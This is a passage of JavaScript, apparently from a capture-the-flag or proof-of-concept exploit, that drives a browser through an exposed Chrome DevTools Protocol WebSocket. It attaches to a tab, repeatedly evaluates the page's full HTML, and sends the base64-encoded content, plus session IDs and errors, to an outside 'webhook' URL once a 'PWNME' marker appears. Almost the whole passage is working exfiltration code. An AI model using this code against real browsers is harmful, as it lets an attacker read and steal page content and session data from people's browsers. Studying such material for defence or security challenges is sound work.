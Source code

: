 ```js
  };

  ws.onmessage = (event) => {
    const data = JSON.parse(event.data);    
    if (data && data.id === 1 && data.result && data.result.targetId) {
      targetId = data.result.targetId;
      fetch(`${webhook}?gotTargetId=${targetId}`);
      const attachCommand = {
        id: 2,
        method: 'Target.attachToTarget',
        params: {
          targetId: targetId,
          flatten: true
        }
      };
      ws.send(JSON.stringify(attachCommand));
    }
    else if (data && data.id === 2 && data.result && data.result.sessionId) {
      sessionId = data.result.sessionId;
      fetch(`${webhook}?gotSessionId=${sessionId}`);
      const enableRuntimeCommand = {
        id: 3,
        method: 'Runtime.enable',
        params: {},
        sessionId: sessionId
      };
      ws.send(JSON.stringify(enableRuntimeCommand));
    }
    else if (data && data.id >= 4) {
      if (data.result && data.result.result && data.result.result.value) {
        const content = data.result.result.value;
        if (content.includes('PWNME')) {
          fetch(`${webhook}?found=PWNME&content=${btoa(content)}`);
          ws.close();
        } else  {
          setTimeout(checkContent, 1000);
        }
      } else {
        setTimeout(checkContent, 1000);
      }
    }
  };

  function checkContent() {
    if (sessionId) {
      checkAttempts++;
      const evaluateCommand = {
        id: 4 + checkAttempts,
        method: 'Runtime.evaluate',
        params: {
          expression: 'document.documentElement.outerHTML',
          returnByValue: true
        },
        sessionId: sessionId
      };
      ws.send(JSON.stringify(evaluateCommand));
    }
  }

  ws.onerror = (error) => {
    fetch(`${webhook}?error=${btoa(error.toString())}`);
  };
})();
```